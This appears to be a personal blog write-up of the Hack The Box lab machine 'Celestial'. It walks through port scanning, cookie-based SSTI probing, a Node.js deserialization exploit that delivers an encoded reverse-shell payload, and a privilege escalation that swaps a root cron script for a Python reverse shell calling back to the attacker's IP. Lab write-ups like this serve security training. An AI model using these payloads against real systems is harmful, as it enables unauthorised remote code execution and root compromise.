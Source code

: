 +++
date = '2025-04-11T10:54:25-05:00'
draft = false
title = 'HtB - Celestial'
tags = ['writeup', 'hackthebox', 'medium', 'linux']
hideToc = false
+++
![HtB-Celestial](/images/Celestial.png)

Celestial is a medium difficulty machine which focuses on deserialization exploits. It is not the most realistic, however it provides a practical example of abusing client-size serialized objects in NodeJS framework.

<!--more-->
---

## Scanning

### nmap

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ nmap -T4 -p- -A 10.129.228.94
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn\'t have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
```

### HTTP - 3000/tcp

![celestial1](/images/celestial1.png)

Can't fuzz much on the website, but a look at the headers reveals a cookie is set.

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ curl http://10.129.228.94:3000/ -i
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Mon, 03 Mar 2025 02:24:57 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 12
ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
Date: Mon, 03 Mar 2025 02:09:57 GMT
Connection: keep-alive
```

Cookie Value: `{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}`

## Initial Access

### SSTI

Messing with the cookie values, it appears as if when we change the `num` value to `1`, the website changes and says: "Hey Dummy 1 + 1 is 11". The website is taking cookie values and generating dynamic content. Maybe we can do an injection of some sort here.

After playing with a few payloads, I see an actual computation on an SSTI payload:
`{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{{7*7}}"}`

![celestial2](/images/celestial2.png)

### Deserialization

I wasn't getting anywhere with the SSTI approach, so continued my research into NodeJS and the Express framework. During my research, I came across an interesting [deserialization attack](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) that might be applicable here.

Download your [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) and generate your reverse shell script:

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ python2.7 nodejsshell.py 10.10.14.142 4444
[+] LHOST = 10.10.14.142
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,52,50,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

Now generate your serialized payload, base64 encode it, and replace the cookie value.

```json
{"rce":"_$$ND_FUNC$$_ function (){<<Paste Encoding>>}()"}
```

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ nc -nvlp 4444                   
listening on [any] 4444 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.228.94] 50644
Connected!
whoami
sun
```

Grab the `user.txt` and let's move on.

## Privilege Escalation

### linpeas.sh

Easy, probably unintended routes:
```sh
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                               
[+] [CVE-2017-16995] eBPF_verifier
[+] [CVE-2016-8655] chocobo_root
[+] [CVE-2016-5195] dirtycow
[+] [CVE-2016-5195] dirtycow 2
[+] [CVE-2021-4034] PwnKit
[+] [CVE-2021-3156] sudo Baron Samedit 2
[+] [CVE-2017-7308] af_packet
[+] [CVE-2017-6074] dccp
[+] [CVE-2017-1000112] NETIF_F_UFO
[+] [CVE-2016-4557] double-fdput()
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
[+] [CVE-2022-2586] nft_object UAF
[+] [CVE-2021-3156] sudo Baron Samedit
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
[+] [CVE-2019-18634] sudo pwfeedback
[+] [CVE-2019-15666] XFRM_UAF
[+] [CVE-2018-1000001] RationalLove
[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64
[+] [CVE-2017-1000253] PIE_stack_corruption
[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE
[+] [CVE-2016-2384] usb-midi
[+] [CVE-2016-0728] keyring
```

### Cron Job

Notice that the file `/home/sun/output.txt` is very recently updated, and seems to be updated every ~5 minutes or so.  Further enumeration yields a python script at `/home/sun/Documents/script.py` that, based on the code, is likely generating that output file. Oh, by the way, the `output.txt` is owned by `root`. I wonder if it's a cron job?

We have write permissions for `script.py`, so let's replace it with a nice reverse shell and setup a listener to see what happens.

```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.142",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

I transferred this over via HTTP to replace `script.py`.

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ nc -nvlp 5555                      
listening on [any] 5555 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.228.94] 46914
# whoami
whoami
root
```

Now grab `root.txt`